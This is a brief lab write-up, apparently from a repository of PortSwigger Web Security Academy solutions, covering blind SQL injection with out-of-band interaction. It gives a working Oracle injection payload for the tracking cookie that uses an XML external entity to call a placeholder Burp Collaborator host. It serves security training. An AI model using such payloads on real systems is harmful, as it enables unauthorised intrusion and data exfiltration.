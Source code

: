 # [Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

## Solutions

1. Blind sqli detection based on time delay:
    - all fail
2. Blind sqli detection based on OOB interaction, `copy to clipboard` a collaborator subdomain:
    - oracle: `TrackingId='+OR+'1'%3d'1'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--;`
    - => Lab Solved
